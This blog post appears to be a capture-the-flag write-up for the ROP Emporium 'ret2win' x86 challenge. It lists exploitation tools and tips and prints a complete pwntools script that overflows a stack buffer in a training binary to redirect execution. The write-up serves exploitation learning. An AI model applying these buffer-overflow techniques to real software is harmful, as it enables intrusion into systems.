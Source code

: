 ```yaml
---
---
layout: post
title:  "ROP Emporium - ret2win"
date:   2023-08-05 19:59:44 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Introduction
Lately I've decided that my next current goal is to gain deeper exploitation knowledge, regarding ARM and MIPS architectures. And whats better than learning by hands?
The ROP Emporium platform offers 8 exploitation challenges, for `x86, x64, ARMv5, mips`. 
Lets do them all!

## Tools
To find ROP gadgets, my regular go-to tool is `ropper`. \
Just in case it might miss few gadgets here and there, I would also use `ROPGadget` (which is abit more recommended for ARM architecture).

`pwntools` is mandatory for such challenges, and the official `pwntools` github even contains ROP Emporium first challenge as an example: [example-ret2win][pwntools-ret2win]

As a debugger, I'd use `pwndbg`. \
It has great integration with `pwntools`, which can automate debugging tasks by running `gdb` from a pythonic script. 

`checksec` is good to learn the challenge's mitigations settings. `rabin2` is also an option.

## Tips
1. Note that for stripped binaries, external functions (that are being imported by the binary) names may be resolved from their shared objects:
```bash
nm -u <binary>  # list external functions
rabin2 -qs <binary> | grep -ve imp -e ' 0 '  # try to list internal functions
```

2. The ROP Emporium challenges contains a `usefulGadgets` symbol, which marks the address of added gadgets to the binary. 

3. In order to find strings (avoid using `strings` binary):
```bash
rabin2 -z split
```

4. Make sure the stack is 16-Byte aligned before `call` instruction.

5. When debugging with GDB, calling `system` with invalid string may start `/usr/bin/bash`. 
   This works specifically within a debugger, not the remote target. 
   
6. Use `ltrace` to track library calls. 

## x86

```bash
$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped

$ checksec ret2win32
[*] '/home/itay/projects/rop_emporium/rop_emporium_all_challenges/ret2win32/ret2win32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
This challenge reads 56 bytes into 32 stack buffer, via `read` call. \
A function named `ret2win` prints the flag, and located within `0x804862c`. 

The amount of needed garbage bytes is 44:
```bash
$ sudo dmesg -C
$ echo `python -c 'print("A"*44 + "B" * 4)'` | ./ret2win32
$ sudo dmesg
[ 4285.835462] show_signal_msg: 7 callbacks suppressed
[ 4285.836441] ret2win32[32818]: segfault at 42424242 ip 0000000042424242 sp 00000000ff9c0940 error 14 in libc.so.6[f7c00000+20000]
[ 4285.836884] Code: Unable to access opcode bytes at RIP 0x42424218.
```
The exploit for x86 is simple (would use it as a skeleton for most of the challenges):
```python
import pwn  
import logging  
  
  
logging.basicConfig(  
    level=logging.DEBUG,  
    format= '[%(asctime)s] {%(pathname)s:%(lineno)d} %(levelname)s - %(message)s',  
    datefmt='%H:%M:%S'  
)  
logger = logging.getLogger(__name__)  
  
DEBUG = True  
BINARY = './ret2win32'  
GOAL_FUNCTION = 'ret2win'  
GOAL_ADDRESS = 0  
  
GDB_SCRIPT = f'''  
set pagination off  
set disassembly-flavor intel  
  
b *0x804862c  
commands printf "woot, reached goal address"  
bt  
c  
end  
  
c  
'''  
  
  
def set_properties(elf):  
    global GOAL_ADDRESS  
    GOAL_ADDRESS = elf.symbols[GOAL_FUNCTION]  
  
    pwn.context.bits = elf.bits  
    pwn.context.endian = elf.endian  
    pwn.context.arch = elf.arch  
    pwn.context.log_level = 'debug'  
  
  
def create_shellcode():  
    shellcode = b''  
    shellcode += 44 * b'A'  
    shellcode += pwn.p32(GOAL_ADDRESS)  
  
    logging.info(f'Created shellcode:\n{shellcode}')  
  
    return shellcode  
  
  
def exploit(p, shellcode):  
    if DEBUG:  
        pwn.gdb.attach(p, GDB_SCRIPT)  
  
    p.sendline(shellcode)  
    p.recvuntil('Thank you!')  
  
    data = p.recvall()  
    logger.info(f'FLAG:{data}')  
  
    p.interactive()  
  
  
def main():  
    elf = pwn.ELF(BINARY)  
    set_properties(elf)  
  
    shellcode = create_shellcode()  
  
    p = pwn.process(BINARY)  
  
    exploit(p, shellcode)  
  
  
if __name__ == '__main__':  
    main()
```



[pwntools-ret2win] https://gist.github.com/zachriggle/e4d591db7ceaafbe8ea32b461e239320

